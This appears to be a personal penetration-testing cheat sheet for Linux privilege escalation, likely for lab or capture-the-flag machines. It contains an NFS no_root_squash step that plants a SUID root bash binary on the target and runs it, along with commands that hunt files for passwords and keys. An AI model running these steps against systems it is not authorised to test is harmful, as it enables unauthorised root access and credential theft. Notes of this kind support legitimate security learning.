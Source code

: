 ```bash
searchsploit "linux kernel ubuntu 10 local privilege escalation" # example to search for an exploit


- Check older file on home directory
- Check when target/box was created > check /etc/ssh/ssh_host_X as that date 
stat /etc/ssh/ssh_host_*
- find files between the following day of when box was created (that is when customization happened) till a week after
find /etc -type f -newermt 2022-06-04 ! -newermt 2022-06-14 -ls 2>/dev/null | less -S


# NFS
cat /etc/exports # the key is no_root_squash, if so and the share is writable, we can create and run a SUID to achieve privesc
showmount -e $TARGET_IP
mkdir tmp/mountonattackingmachine
sudo mount -o rw $TARGET_IP:/$NFS_SHARE /tmp/mountonattackingmachine
- On the target, copy /usr/bin/bash to the NFS share
# Following steps as root on the attacking machine
chown root:root bash
chmod 4755 bash 
# Then run that binary on the target 
./bash -p

ls -la /var/mail
who # who is logged
w # who is logged and what they are doing
last
ip a s
cat /etc/resolv.conf
# nestat needs sudo to show PID/program name
sudo netstat -plt
sudo netstat -atupn
# lsof List Open Files
sudo lsof -i
 sudo lsof -i :$PORT


# FIND FILES*****************************
# Look for .txt, .php, .db files (LinPEAS doesn't detect if no "pass" included)
find / -name *.txt -type f 2>/dev/null
find / -name *.php -type f 2>/dev/null
find / -name *.db -type f 2>/dev/null
find / -name *database* 2>/dev/null
# Search for interesting words within files
cat file | grep -i -E "user|pass|key|db|database" | less -S
# Check common locations
CHECK /home
CHECK /var/www
CHECK /opt/
# /opt is a directory for installing unbundled packages (i.e. packages not part of the Operating System distribution, but provided by an independent source), each one in its own subdirectory.
#CHECK OTHER USER'S FILES
find / -user $USER 2>/dev/null
#SEARCH FOR WRITABLE FILES
#Look for interesting files inside /var/www/html if there is a web server running.

# CHECK INTERNAL OPEN PORTS
ss -tulpn
lsof -i:9000 # --> know what's running on that port
# ATTENTION TO POSSIBLE WEBSERVER PORTS (CHECK ANY PORT 127.0.0.1:x)
# IF THE PORT IS HTTP ---> LOOK FOR INFO in /etc/apache2/sites-enabled

```